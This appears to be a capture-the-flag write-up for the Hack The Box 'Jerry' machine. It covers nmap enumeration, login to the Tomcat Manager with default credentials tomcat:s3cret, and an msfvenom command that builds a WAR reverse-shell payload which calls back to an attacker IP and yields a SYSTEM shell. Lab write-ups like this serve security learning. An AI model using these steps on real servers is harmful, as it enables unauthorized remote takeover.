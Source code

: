 # Jerry

# Enumeration

## Nmap

I start running a simple nmap scan.

```bash
nmap -sC -sV -Pn jerry.htb > nmap.txt
```

The scan shows only port 8080 open, running Apache Tomcat.

![Untitled](POC/nmap.png)

Since there’s only one place to go, I’ll see what I can find.

## Website

This looks like a default page for Apache Tomcat. Theres a few things I can click on, but the one that sticks out the most is the Manager App.

![Untitled](POC/website.png)

When I try to click on the Manager App button, I am prompted for login. Because this is a default page, my immediate thought is to try some default credentials. Googling default credentials for Tomcat returns [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) handy list of credentials.

After trying a few of the basic combinations (admin:password, admin:admin, root:root), i decide to try tomcat:s3cret, which lets me in!

![Untitled](POC/admin_console.png)

Although I got lucky with trying this combination from the list of 29 combinations, I later realized that the credentials were much easier to find. By closing the login screen, this window will pop up:

![Untitled](POC/default_creds.png)

The example credentials that are given are tomcat:s3cret, which I believe was how the creator intended users to find the credentials, rather than brute forcing it. Regardless, I’m in and will now look around a bit more.

## Manager App

The first thing that catches my eye in this Manager App is the section to upload a file.

![Untitled](POC/upload.png)

Because I’m not sure what a WAR file is, it’s time to do some googling! This [wikipedia](https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web) page reveals that a WAR (Web Application Resource) file is a file used to distribute various resources needed to run a web application. These files can contain Java code, which is all I needed to hear!

# Exploitation

## WAR Payload

A bit more research shows that I can craft a payload in msfvenom formatted as a war file! Ill specify that I want a windows reverse shell, because this is a windows box, along with the ip and port to send the shell to. Using `-f` I can then tell msfvenom to format this payload as a war file.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > rev.war
```

I send the full command to msfvenom and get my file outputted as `rev.war`

![Untitled](POC/msfvenom.png)

Once I upload the file, it shows up in the dashboard and it’s ready to go!

![Untitled](POC/uploaded.png)

## Reverse Shell

I’ll set up a netcat listner over port 1234 and try to run the file by clicking on the file. When I try clicking on the file, I am greeted with a 404 Status Error page.

![Untitled](POC/404.png)

After a bit of troubleshooting, I discover that this is because i formatted my reverse shell as a windows payload, formatted as a WAR file. What I should have done is was used a java payload instead. Because I used a windows payload, it gets converted to a `.jsp` (Java Service Page) and then formatted as a WAR file, so when the file is launched the system doesn’t know to launch the `.jsp`. What I need to do is find the name of the `.jsp` file so I can specify that in the URL.

This can be done by running the `jar` command against the payload, with the `-ft` commands. `-f` specifies the file, and `-t` will list the table of contents for the file.

![Untitled](POC/jar.png)

Now that I know the file name, I can add this to the end of the URL to execute the payload and get the reverse shell back to my machine.

![Untitled](POC/url_update.png)

I run a whoami to find that I have a system shell!

![Untitled](POC/system.png)

## Flags

There is a folder on the administrator desktop named flags, which contains one file that has both flags!

![Untitled](POC/flags.png)
